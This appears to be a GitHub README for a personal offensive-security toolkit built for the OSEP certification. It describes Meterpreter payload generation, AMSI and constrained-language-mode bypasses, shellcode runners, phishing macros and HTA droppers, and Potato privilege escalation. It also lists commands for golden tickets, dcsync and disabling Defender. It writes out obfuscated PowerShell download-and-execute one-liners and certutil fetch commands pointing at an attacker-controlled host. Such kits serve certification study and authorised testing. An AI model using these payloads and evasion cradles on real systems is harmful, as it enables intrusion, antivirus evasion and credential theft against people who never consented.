 # OSEP

This is just for my osep.

Only tested on Kali-2023.3

## Install

Update
```
sudo apt-get update && sudo apt-get upgrade -y
```

Install dependencies
```
python3 -m pip install -r requirements.txt
sudo apt install -y mono-complete
```

Generate SSL certs for meterpreter
```
./gen_metreperter_cert.sh
```

### Install arsenal (Optional)

https://github.com/Orange-Cyberdefense/arsenal

Install arsenal
```
sudo python3 -m pip install arsenal-cli
```

Add alias (Kali)
```
echo PATH=\$PATH:\$HOME/.local/bin >> ~/.zshrc
echo alias a=\'arsenal\' >> ~/.zshrc
```

Fix arsenal issues on Kali

https://github.com/Orange-Cyberdefense/arsenal/issues/61
```
1. run: sudo vim /etc/sysctl.conf
2. paste: dev.tty.legacy_tiocsti=1
3. Save
4. run: sudo sysctl -p
```

## Usage
```
python3 gen_payload.py -i <IP or InterfaceName> -p <meterpreter port> -a <x64 or x86>

Example:
python3 gen_payload.py -i tun0 -p 443 -a x64
```

## meterpreter
```
msfconsole -q -r win64-staged-https.rc
```

## Main payload files
### Windows:

|                                     Name |                                                                                                                     Description |
|------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------|
|                                    a.ps1 |                                                                                                       Bypass AMSI in Powershell |
|                            awsi_buff.ps1 |                                                                           Bypass AMSI in Powershell & CSharp (Patch ScanBuffer) |
|                                 lsal.ps1 |                                                                   load amsi bypass & shellcode runner (aes, embedded shellcode) |
|                                 lsar.ps1 |                                                              load amsi bypass & shellcode runner (aes, load shellcode remotely) |
|                               lacxsr.ps1 |                                                     load amsi bypass & shellcode runner (caesar & xor, load shellcode remotely) |
|                              clm_rev.ps1 |                               Bypass clm with Installutil.exe and run amsi bypass & nc_reverse_tcp. Default revserse port 8443. |
|                                  clm.ps1 | Download and execute bypass_clm_with_installutil.exe with InstallUtil.exe. bypass_clm_with_installutil.exe will load lacxsr.ps1 |
|                   bypass_clm_cxshell.exe |                                                                                                  bypass clm and load lacxsr.ps1 |
|                                 bads.ps1 |                                                                                                             BadPotato + clm.ps1 |
|                                lbads.ps1 |                                                                                        AMSI bypass(Patch ScanBuffer) + bads.ps1 |
|                                 gods.ps1 |                                                                                                             GodPotato + clm.ps1 |
|                                lgods.ps1 |                                                                                        AMSI bypass(Patch ScanBuffer) + gods.ps1 |


Useful files
```
i`e`x(iWr -UsEbaSIcparSING http://IP/lacxsr.ps1);
i`e`x(iWr -UsEbaSIcparSING http://IP/clm_rev.ps1);
i`e`x(iWr -UsEbaSIcparSING http://IP/clm.ps1);
i`e`x(iWr -UsEbaSIcparSING http://IP/lbads.ps1);
```


### Phishing
| Name                                 | Description                                             |
|--------------------------------------|---------------------------------------------------------|
| macro_bypass_clm_with_installutil.vb | load clm.ps1                                            |
| shellcode_runner_caesar.vb           | shellcode runner                                        |
| clm_cert.hta                         | load bypass_clm_with_installutil.exe using certutil.exe |
| clm_ps.hta                           | load clm.ps1                                            |

### Linux
| Name         | Description                      |
|--------------|----------------------------------|
| shellxor.elf | shellcode runner (xor)           |
| dropper.elf  | download and execte shellxor.elf |
| dropper.sh   | download and execte shellxor.elf |

## Other tools
### tools/searchcommand.py 
```
$ ./tools/searchcommand.py 
0. Download_File
1. chisel
2. Get-DomainTrust
3. Get-DomainSID
4. PowerUpSQL
5. MSSQL
6. BloodHound
7. GoldenTicket
8. Dump-TrustKey
9. dcsync
10. Unconstrained_Delegation
11. Constrained_Delegation_with_protocol_transition
12. Constrained_Delegation_without_protocol_transition
13. rbcd_Resource_Based_Constrained_Delegation
14. to_parent_domain_using_krbtgt
15. to_parent_domain_using_trustkey
16. cross_forest_with_extraSID
17. schtasks
18. disable_defender
19. sc
```

```
$ ./tools/searchcommand.py -c 0
=================================
=    [Windows] Download_File    =
=================================
# Default listen ip on tun0, listen port on 80
# certutil.exe
certutil.exe -urlcache -f http://tun0_ip:80/{{filename}} {{filename}}

# PowerShell
iwr "http://tun0_ip:80/{{filename}}" -OutFile "{{filename}}"
powershell i`e`x(iWr -UsEbaSIcparSING http://tun0_ip:80/{{filename}});
```

### tools/make_assembly_loader.py

```
python3 tools/make_assembly_loader.py -c BadPotato.ExecuteRectangle -f Invoke-BadPotato -enc thirdparty/BadPotato.exe out/BadPotato.ps1
```

## Reference
https://github.com/tree-chtsec/osep-tools
